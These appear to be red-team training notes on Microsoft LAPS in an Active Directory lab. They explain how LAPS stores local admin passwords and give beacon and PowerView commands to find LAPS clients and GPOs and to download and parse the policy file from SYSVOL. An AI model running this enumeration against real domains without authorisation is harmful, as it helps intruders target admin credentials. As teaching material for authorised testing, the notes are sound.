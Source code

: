 # Local Administrator Password Solution

Most orgs build VMs from a gold image to ensure consistency and compliance. This can result in every machine having the same password on accounts such as LA. If one machine and therefore LA password hash is compromised, an attacker may be able to move laterally to every machine in the domain using the same set of credentials.

LAPS manages the creds of a LA account on every machine, either the default RID 500 or a custom account. This ensures the password for each account is different, random, and automatically changed on a defined schedule. Permission to request and reset the credentials can be delegated (but also logged). A summary of how LAPS works:

1. AD adds two new properties to computer objects: ms-Mcs-AdmPwd and ms-Mcs-AdmPwdExpirationTime
2. By default, the DACL on ms-Mcs-AdmPwd grants read access to Domain Admins, and each computer object has permission to update these properties on itself
3. Rights to read AdmPwd can be delegated to other principals (users, groups etc), typically done at the OU
4. A new GPO template is installed, used to deploy the LAPS configuration to machines
5. The LAPS client is installed on every machine (commonly via GPO)
6. When a machine does gpupdate, it checks the AdmPwdExpirationTime property on its own object in AD. If the time has elapsed, it generates a new password and sets it on the ms-Mcs-AdmPwd property.

Ways to look for LAPS:

1: If applied to a machine you have access to, AdmPwd.dll will be on disk:

    beacon> run hostname
    wkstn-2
    beacon> ls C:\Program Files\LAPS\CSE

2: Search for GPOs that have "LAPS" or some other descriptive term in the name.

    beacon> powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

3: Look for computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this):

    beacon> powershell Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName

If find the correct GPO, download the LAPS configuration from the gpcfilesyspath:

    beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine
    
     Size     Type    Last Modified         Name
     ----     ----    -------------         ----
     920b     fil     08/16/2022 12:22:23   Registry.pol
    
    beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol

The Parse-PolFile cmdlet from [GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser) can convert this to human-readable format:

    PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol
    KeyName     : Software\Policies\Microsoft Services\AdmPwd
    ValueName   : PasswordComplexity
    ValueType   : REG_DWORD
    ValueLength : 4
    ValueData   : 3
    ...
